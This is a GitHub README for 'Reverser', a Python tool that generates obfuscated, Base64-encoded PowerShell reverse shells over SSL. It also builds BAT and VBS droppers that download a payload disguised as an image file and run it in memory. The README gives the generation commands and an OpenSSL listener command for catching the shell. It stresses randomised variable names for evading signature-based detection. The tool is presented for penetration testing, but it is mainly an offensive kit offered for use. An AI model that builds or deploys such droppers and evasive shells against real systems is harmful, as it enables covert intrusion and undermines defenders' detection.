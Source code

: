 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reverser
```

## Explain

The tool can generate two types of files, as chosen by the user:
A PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
A legitimate BAT file that connects to a remote server to download the encoded PS1 file.

To create the BAT file, I developed a Python script that acts as a listener for the PS1 file download request. The server can operate with an encryption certificate and supports connections over both HTTP and HTTPS. This ensures that the initial connection between the BAT file and the server for downloading the payload is conducted over an encrypted channel.

The encoded PS1 file will be loaded into memory and establish a connection to another listener, which is set up using OpenSSL.

This way, we can ensure that the communication is encrypted end-to-end.

## Usage

Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```
Creating a VBS file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type vbs -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/350a0105-c8a3-43f5-8e67-fddb34cf84f8)



Opening a listener with the OpenSSL server to receive the Reverse shell connection, 
and opening a listener with our server to handle the initial connection for downloading the PS1 file from the BAT file:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
```bash
python3 listener.py -https_port <Your_Listener_Server_PORT>
```
![image](https://github.com/user-attachments/assets/b64a4bf1-e801-4a3e-8a0b-eaa1acbd9ff8)



Running the BAT file on the workstation, the file connects to our listener server over encrypted traffic:

![image](https://github.com/user-attachments/assets/049f45bf-f014-47d8-92ef-4514294745cf)




Receiving a response from the listener server and establishing a Reverse shell from the workstation:

![image](https://github.com/user-attachments/assets/dee0bf16-68f4-4059-9bdf-3d28e859e4c5)



The encrypted network traffic:

![image](https://github.com/user-attachments/assets/7fa8673f-0d4c-40e5-9449-ef746b6b203f)



And here is an example for those who want to create an encrypted listener server. 
The BAT file will connect to the server to download the PS1 file, and you can observe the connection to the server. 
The Reverse shell operation will then proceed in an encrypted manner:
![image](https://github.com/user-attachments/assets/77b78ae6-fc92-4fa9-93fa-ab43a9bc5b27)


# Update for the tool (25/08/2024):
1) A change was made in the BAT file
  The pyaload for downloading the PS1 file currently works with base64 compared to the previous version that was in clear texr:

  ![image](https://github.com/user-attachments/assets/6cebfce2-3ebe-44a5-969c-afca3c7024ce)

2) A bank of variables has been added to streamline the PS1 file signature change:

  ![image](https://github.com/user-attachments/assets/dce15c9a-68e3-4e36-a156-b6d3e1c2bc18)

  ![image](https://github.com/user-attachments/assets/afe01484-cdc3-4b97-849e-0fa59f30f74b)



